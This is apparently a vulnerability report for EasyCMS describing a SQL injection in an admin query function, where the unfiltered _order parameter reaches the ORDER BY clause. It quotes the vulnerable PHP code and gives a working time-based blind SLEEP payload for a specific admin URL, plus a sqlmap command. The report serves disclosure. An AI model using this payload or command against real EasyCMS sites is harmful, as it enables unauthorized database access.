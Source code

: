 # EasyCMS's background query function SQL injection vulnerability(new)

1.The following code has SQL injection:

vulnerability found in:
    \App\Modules\Admin\Action\ArticlemAction.class.php line 390 function query
   
		$list = $model->where($map)->relation(true)->order($order.' '.$sort)
						->limit($p->firstRow.','.$p->listRows)
						->select();			
		if (method_exists($this, '_tigger_list')) {
			$this->_tigger_list($list);
		}
		foreach ($map as $key => $val) {
			if (!is_array($val)) {
				$p->parameter .= "$key=" . urlencode($val) . "&";
			}
		}

![图片](https://user-images.githubusercontent.com/90664154/149264230-11e0c622-8903-4d8e-af35-d95d0e76aac7.png)

The variable Order is not filtered and SQL injection exists.

Web sample:
![图片](https://user-images.githubusercontent.com/90664154/149264421-d0bb1b16-72e3-45f4-8c45-f9f7964336d0.png)


2.Payload
URL:/index.php?s=/admin/user/index.html

Payload: _order=123 AND (SELECT 8561 FROM (SELECT(SLEEP(5)))MlTU)&keyword=123&numPerPage=10&pageNum=1

Parameter: _order (POST)

Type: time-based blind

sqlmap command:
python sqlmap.py -r easycms.txt -batch

result:
![图片](https://user-images.githubusercontent.com/90664154/149264277-a720fa3e-c1d2-4184-aabf-a637bb3138ad.png)


